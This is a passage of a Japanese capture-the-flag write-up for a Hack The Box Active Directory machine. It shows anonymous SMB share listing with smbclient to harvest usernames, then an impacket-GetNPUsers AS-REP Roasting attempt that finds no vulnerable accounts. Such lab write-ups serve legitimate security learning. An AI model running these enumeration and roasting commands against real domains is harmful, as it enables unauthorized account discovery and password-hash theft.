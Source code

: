 homes
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/BabyTwo]
└─$ smbclient -N //$Target_IP/homes
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Aug 25 08:08:33 2025
  ..                                  D        0  Tue Aug 22 20:10:21 2023
  Amelia.Griffiths                    D        0  Tue Aug 22 20:17:06 2023
  Carl.Moore                          D        0  Tue Aug 22 20:17:06 2023
  Harry.Shaw                          D        0  Tue Aug 22 20:17:06 2023
  Joan.Jennings                       D        0  Tue Aug 22 20:17:06 2023
  Joel.Hurst                          D        0  Tue Aug 22 20:17:06 2023
  Kieran.Mitchell                     D        0  Tue Aug 22 20:17:06 2023
  library                             D        0  Tue Aug 22 20:22:47 2023
  Lynda.Bailey                        D        0  Tue Aug 22 20:17:06 2023
  Mohammed.Harris                     D        0  Tue Aug 22 20:17:06 2023
  Nicola.Lamb                         D        0  Tue Aug 22 20:17:06 2023
  Ryan.Jenkins                        D        0  Tue Aug 22 20:17:06 2023

                6126847 blocks of size 4096. 1958069 blocks available
```
それぞれのユーザーフォルダがある
中は空 or 見えない
でも、ユーザー名を取得できたので、AS-REP Roastingに使用することができる


## AS-REP Roasting
ユーザー名ファイルを作る
```sh
cat valid_ad_users
Amelia.Griffiths
Carl.Moore
Harry.Shaw
Joan.Jennings
Joel.Hurst
Kieran.Mitchell
library
Lynda.Bailey
Mohammed.Harris
Nicola.Lamb
Ryan.Jenkins
```

AS-REP Roastingの実行
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/BabyTwo]
└─$ impacket-GetNPUsers baby2.vl/ -dc-ip 10.129.234.72 -no-pass -usersfile valid_ad_users -format hashcat -outputfile asrep_hashes.txt
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Amelia.Griffiths doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Carl.Moore doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Harry.Shaw doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Joan.Jennings doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Joel.Hurst doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Kieran.Mitchell doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User library doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Lynda.Bailey doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Mohammed.Harris doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Nicola.Lamb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Ryan.Jenkins doesn't have UF_DONT_REQUIRE_PREAUTH set
```
特に該当なかった
